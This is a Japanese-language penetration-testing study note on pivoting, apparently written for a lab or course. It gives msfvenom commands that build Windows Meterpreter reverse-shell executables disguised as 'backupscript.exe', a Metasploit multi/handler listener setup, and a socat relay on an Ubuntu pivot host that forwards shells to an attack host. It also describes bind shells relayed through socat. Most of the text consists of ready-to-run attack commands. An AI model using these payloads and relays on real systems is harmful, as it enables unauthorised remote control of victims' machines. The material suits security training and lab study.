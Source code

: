 
Windows向けリバースシェルペイロードの作成
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```
コマンドの意味
- `-p windows/x64/meterpreter/reverse_tcp` → Windows用のMeterpreterリバースシェル
- `LHOST=172.16.5.129` → UbuntuピボットホストのIP
- `LPORT=1234` → ピボットホストのポート1234で受信
- `-f exe` → 実行可能なEXEファイルとして出力
- `-o backupscript.exe` → ファイル名 backupscript.exe で保存

Windowsターゲットでペイロードを実行
作成した backupscript.exe をWindowsターゲットで実行すると、ピボットホスト（Ubuntu）経由で攻撃ホストへリバースシェル接続が転送される

# Socat
- [Socat](https://linux.die.net/man/1/socat)は、SSHトンネリングを使用せずに2つの独立したネットワークチャネル間にパイプソケットを作成できる双方向リレーツール
- あるホストの特定のポートでリスニングし、そのデータを別の IP アドレスとポートへ転送するリダイレクターの役割を果たす

## Socatを利用したリバースシェル
1. 攻撃ホスト上で Metasploit のリスナーを起動する
- Metasploitの multi/handler を使用し、攻撃ホスト上でポート8080でリスニングする
```shell
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080 
```

2. ピボットホスト上のUbuntu サーバー上で Socat を起動する
- Socat はローカルホスト(ピボットホスト)のポート 8080 でリスニングを開始し、すべてのトラフィックを攻撃ホスト（10.10.14.18）のポート 80 へ転送する
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

3. ピボットホストを介したターゲット(WIndowsA)上で実行するペイロードを作成する
```sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

## Socatを利用したバインドシェル
バインドシェルは、リバースシェルとは逆で、ターゲット側でポートを開いて待っておいて、そこにAtack Hostが接続するシェルのこと
- Windows 上で **バインドシェルのペイロードを作成して実行** し、同時に Ubuntu サーバー上で **Socat をリダイレクターとして動作させる**
- Socat リダイレクターは、**Metasploit のバインドハンドラーからの接続を受け入れ、その通信を Windows ターゲットのバインドシェルへ転送** する役割を果たす
![](https://i.imgur.com/z3ktJi6.png)
